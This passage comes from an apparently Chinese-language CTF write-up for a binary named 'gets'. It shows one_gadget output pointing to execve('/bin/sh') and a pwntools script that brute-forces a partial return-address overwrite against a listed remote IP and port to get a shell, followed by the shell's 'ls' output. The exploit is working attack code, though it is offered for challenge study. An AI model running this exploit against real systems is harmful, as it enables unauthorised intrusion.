 ```shell

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

使用如下 exp 继续爆破，

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + '\x16\02'
            p.sendline(payload)

            p.sendline('ls')
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue


if __name__ == "__main__":
    exp('106.75.4.189', 35273)
```

最后获取到 shell。

```python
$ ls
exp.py  gets
```

### 题目
